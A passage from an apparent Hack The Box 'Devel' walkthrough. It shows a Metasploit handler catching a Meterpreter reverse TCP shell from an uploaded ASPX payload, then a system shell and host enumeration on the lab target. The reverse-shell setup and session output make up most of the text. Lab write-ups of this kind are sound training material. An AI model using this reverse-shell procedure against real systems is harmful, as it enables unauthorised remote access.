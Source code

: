 Switch back to browser and open the spen.aspx file we just uploaded. The start msfconsole with handler listening:

```text
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.22
LHOST => tun0
msf5 exploit(multi/handler) > options
Module options (exploit/multi/handler):
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   EXITFUNC  process          yes             Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes             The listen address (an interface may be specified)
   LPORT     4444             yes             The listen port
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.22:4444
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.10.10.5:49157) at 2019-07-23 12:48:40 +0100

meterpreter > sessions -i 1
Usage: sessions <id>
Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>

meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows

meterpreter > shell
Process 3868 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
c:\windows\system32\inetsrv>systeminfo
systeminfo
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31
System Boot Time:          26/7/2019, 10:37:35
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
```